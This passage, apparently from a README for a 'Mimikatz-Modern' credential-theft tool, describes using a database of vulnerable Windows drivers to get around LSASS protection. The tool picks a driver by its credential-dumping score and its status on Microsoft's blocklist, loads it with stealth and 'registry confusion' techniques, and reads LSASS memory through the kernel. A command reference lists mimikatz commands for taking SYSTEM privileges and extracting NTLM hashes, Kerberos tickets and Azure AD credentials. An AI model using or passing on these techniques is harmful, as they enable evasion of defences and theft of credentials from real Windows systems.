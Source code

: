 This project integrates with the **driver-hunter** vulnerable driver discovery platform:

**Driver-Hunter Repository**: https://github.com/volume19/driver-hunter

### How It Works

1. **Driver-Hunter** scans internet for Windows drivers and analyzes for vulnerabilities
2. Drivers are scored based on Tool-Alpha (credential dumping) capabilities
3. **Mimikatz-Modern** queries this database when PPL is detected
4. Optimal driver is selected based on:
   - Tool-Alpha score (memory access capability)
   - Windows 11 compatibility
   - Microsoft blocklist status
   - Signature validity
5. Driver is loaded with stealth techniques
6. Kernel-mode memory access established
7. Credentials extracted via driver

### Example Flow

```
User runs: mimikatz.exe sekurlsa::logonpasswords

↓
PPL Detection: LSASS is protected

↓
Query driver-hunter database: Find drivers with Tool-Alpha score ≥ 20

↓
Select optimal driver: vulnerable_driver.sys (score: 35)

↓
Load driver: Use registry confusion technique

↓
Initialize IOCTL interface: Auto-detect memory read/write IOCTLs

↓
Read LSASS memory: Via kernel driver

↓
Extract credentials: Decrypt and display
```

## Command Reference

### Core Commands

```bash
# Authentication
privilege::debug          # Get SeDebugPrivilege
token::elevate            # Impersonate SYSTEM

# Credential Extraction
sekurlsa::logonpasswords  # Extract all credentials
sekurlsa::msv             # Extract LM/NTLM hashes
sekurlsa::wdigest         # Extract WDigest passwords
sekurlsa::kerberos        # Extract Kerberos credentials
sekurlsa::cloudap         # Extract Azure AD credentials
sekurlsa::tickets         # Extract Kerberos tickets
sekurlsa::ekeys           # Extract Kerberos keys
sekurlsa::credman         # Extract Credential Manager

# Process Context
```